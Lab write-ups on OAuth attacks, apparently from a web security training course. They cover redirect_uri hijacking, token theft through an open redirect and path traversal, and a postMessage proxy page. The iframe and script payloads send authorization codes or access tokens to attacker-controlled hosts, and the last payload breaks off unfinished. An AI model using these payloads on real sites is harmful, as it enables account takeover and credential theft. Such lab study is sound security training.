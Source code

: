 
## Lab: OAuth account hijacking via redirect_uri

1. Login into your own account 
2. An OAuth authorization should be initiated by now
3. As there the `redirect_uri` is not properly being validated it's likely vulnerable to open redirection to Account hijacking.
4. Now create a CSRF type of attack which iniates the OAuth flow but update the redirect uri to attacker controlled uri and the attack should work.

    ```html
    <iframe src='https://oauth-0a02001104f5135e80d447dd022f00c8.oauth-server.net/auth?client_id=ch8ubea54mbf1xb542r1r&redirect_uri=https://von7c7w2q4ifttsoog8qogbp8ge72yqn.oastify.com/&response_type=code'></iframe>
    ```


## Lab: Stealing OAuth access tokens via an open redirect

1. Login using the account of the wiener
2. Check the request that is initiating the OAuth
3. Now check if you could bypass the `redirect_uri`
4. Validation is not allowing the external domains 
5. Find an open redirect `/post/next?path=evil.com`
6. Path traversal is allowed   
Combininig all the payloads 
    ```html
    <script>
        if (!document.location.hash) {
            window.location = 'https://oauth-0aed00ac047e254e80ba5b8a029a0017.oauth-server.net/auth?client_id=myp31oljr7tvsjmeph3wx&redirect_uri=https://0a0d007504812525807b5d3200b300dd.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a5600d504d2258c80315c3801e90045.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
        } else {
            window.location = '/?'+document.location.hash.substr(1)
        }
    </script>
    ```
7. Store the payload and deliver it to the victim
8. You can find the `/me` endpoint where you can update the `Authorization` token and access the `Administrators` account. 
8. You will get api key and submitting it will solve the lab.

## Lab: Stealing OAuth access tokens via a proxy page

1. Login and check oauth flow
2. Monitor the comment section wheee you can find the issue.  
*Observe that the comment form is included as an iframe on each blog post. Look closer at the /post/comment/comment-form page in Burp and notice that it uses the postMessage() method to send the window.location.href property to its parent window. Crucially, it allows messages to be posted to any origin (*).*
3. Use the following payload in exploit server.
    ```html
        <html>
        <head>
            <title>OAuth</title>
        </head>"9lZEeDD94VlKtY8zUToJaWVCFOeQn3gH"
        <body>
            <iframe src="https://oauth-0ad500d80453f28980bd476c029400d2.oauth-server.net/auth?client_id=rudeq5fsnd2uv728bzb7z&redirect_uri=https://0aa900f604a9f208808c4956001000a1.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=688455368&scope=openid%20profile%20email"></iframe>
